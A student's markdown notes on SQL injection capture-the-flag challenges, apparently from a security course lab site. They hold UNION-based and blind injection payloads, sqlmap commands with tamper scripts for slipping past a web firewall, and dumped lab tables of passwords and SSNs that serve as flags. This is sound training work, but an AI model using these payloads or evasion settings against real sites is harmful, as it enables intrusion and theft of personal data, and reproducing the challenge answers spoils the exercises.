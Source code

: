 # SQL Injection

## Important Notes
1st thing's first, it seems most often you need your payload in the URL to start with an apostraphe `'` and end with `--`.

## Determining the number of columns required in a SQL injection UNION attack

When performing a SQL injection UNION attack, there are two effective methods to determine how many columns are being returned from the original query.

The first method involves injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs. For example, assuming the injection point is a quoted string within the WHERE clause of the original query, you would submit:

```' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc. 
```

The second method involves submitting a series of UNION SELECT payloads specifying a different number of null values:

```' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```

## Determine how many columns are being returned in the original sql payload
Not part of the curiculum but it's an extra tool in my belt I'll eventually need
>Sam' ORDER BY 1#

Returns nothing
>Sam' ORDER BY 2#

Gives an error.
Thus, there is 1 column being returned in the original payload.

>Sam' UNION SELECT ssn from employees#

Returns all SSNs in the employee table.

## ED 103.2.2: Password (20 pts extra)
The flag is Steve Jobs' password.
>Sam' union select pw from passwords where id=2#

alpine

## But how would I have found out that 'passwords' was a table that existed??
>Sam' union select 1 from passwords#

If this returns 1, it proves that the table passwords exists.
Now, column 'pw' I wouldn't have saught out to guess, but I guess any general variation of 'password' should always be checked.

## Dump all the passwords
>Sam' union select pw from passwords#


Haven't gotten this one yet...

### sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" --tamper=between,randomcase,space2comment --random-agent -v 3 -p u --columns -T passwords

```Table: passwords
[3 columns]
+---------+----------------------+
| Column  | Type                 |
+---------+----------------------+
| id      | smallint(5) unsigned |
| isadmin | smallint(5) unsigned |
| pw      | varchar(20)          |
+---------+----------------------+
```



### sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" --tamper=between,randomcase,space2comment --random-agent -v 3 -p u --dump -T passwords
```+----+----------+---------+
| id | pw       | isadmin |
+----+----------+---------+
| 1  | Dropping | 1       |
| 2  | Fl33t    | 0       |
| 3  | d0ggi3   | 0       |
| 4  | h4gg15   | 0       |
| 5  | w1n73r   | 999     |
+----+----------+---------+
```

### sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" --tamper=between,randomcase,space2comment --random-agent -v 3 -p u --dump -T employees
```Table: employees
[5 entries]
+----+-------------+----------------+
| id | ssn         | name           |
+----+-------------+----------------+
| 1  | 111-22-3456 | Bill Gates     |
| 2  | 333-22-4888 | Steve Jobs     |
| 3  | 444-22-1569 | Linus Torvalds |
| 4  | 444-33-1569 | WOZ            |
| 5  | sss-22-1569 | Grouper        |
+----+-------------+----------------+
```

**Steve Job (id=2)'s password = Dropping. He wanted us to do it by manual UNION exploitation, so I'll have to manually do that.

Admin's ID:

1

[ ] - x' UNION SELECT name FROM employees WHERE name='admin' AND substr(id, 1, 1)='1'#
[!] - User x' UNION SELECT name FROM employees WHERE name='admin' AND length(id)='1'# found!



# ED 103.2.4: Sqlmap on a Protected Target (10 pts extra)
`Find the current username, covered by a green box in the image below. That's the flag.`

### Notes
- --current-user

sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" -p u --current-user

### Answer
- current user: 'bill2a@localhost'




# ED 103.2.5: Sqlmap: Retrieving Data (20 pts extra)
```Use Sqlmap on this target:
https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs

Recover the data from the tables. The flag is Steve Jobs' SSN.
```

General notes:
- -T tablename (specify tablename)
- --dump (dump all contents of the table; this is necessary for the command to work)

Key notes to get around WAF:
- --tamper=between,randomcase,space2comment (you need each .py script located in the dir you're working in!!!)
- --random-agent

### sqlmap -u "https://games.samsclass.info/sqli/chal2a.php?u=Steve%20Jobs" --tamper=between,randomcase,space2comment --random-agent -v 3 -p u --tables

```Database: widgets2a
Table: employees
[5 entries]
+----+-------------+----------------+
| id | ssn         | name           |
+----+-------------+----------------+
| 1  | 111-22-3456 | Bill Gates     |
| 2  | 333-22-4888 | Steve Jobs     |
| 3  | 444-22-1569 | Linus Torvalds |
| 4  | 444-33-1569 | WOZ            |
| 5  | sss-22-1569 | Grouper        |
+----+-------------+----------------+
```
